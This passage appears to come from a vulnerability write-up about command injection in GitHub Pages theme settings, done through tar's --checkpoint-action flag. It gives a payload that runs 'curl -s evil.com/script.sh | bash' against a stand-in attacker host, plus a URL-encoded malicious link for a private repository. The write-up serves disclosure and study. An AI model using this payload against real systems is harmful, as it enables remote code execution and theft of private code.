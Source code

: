 ![Code execution](/assets/github-pages-command-injection/code-execution-id.png)

Great! We have succesfully achieved arbitrary code execution.

**Side note:** _Using `--checkpoint-action` is one way to achieve code execution, but not the only way. As we have full control over the input, we can exit the `tar` command and execute arbitrary commands. But by using `--checkpoint-action`, the `tar` command (and consequently the whole pipeline) will still succeed, making the attack less obivious to a victim._

### An Example Attack
Now, you might be thinking: "You found command injection vulnerablity on a GitHub Actions runner as an admin. Big deal. So, what? Running arbitrary code specified by users is exactly what CI runners are for. You just found a way to do it in extra steps."

And you would be correct. However, what makes this exploitable is the fact that it can be triggered through a URL.

Say we are an attacker that wants to get access to the code in a private repo of a company. We can use this vulnerablity to get access to the code:

1. We craft a malicious payload: `/ --checkpoint=1 --checkpoint-action="exec=curl -s evil.com/script.sh | bash" --exclude=`.
  * This payload downloads and executes a script from an attacker controlled server.
2. We craft a malicious URL (with a URL encoded payload):

    ```HTTP
    https://github.com/company/privatecode/settings/pages/themes?source=non-existent-branch&source_dir=%2F%20%2D%2Dcheckpoint%3D1%20%2D%2Dcheckpoint%2Daction%3D%22exec%3Dcurl%20%2Ds%20evil%2Ecom%2Fscript%2Esh%20%7C%20bash%22%20%2D%2Dexclude%3D
    ```
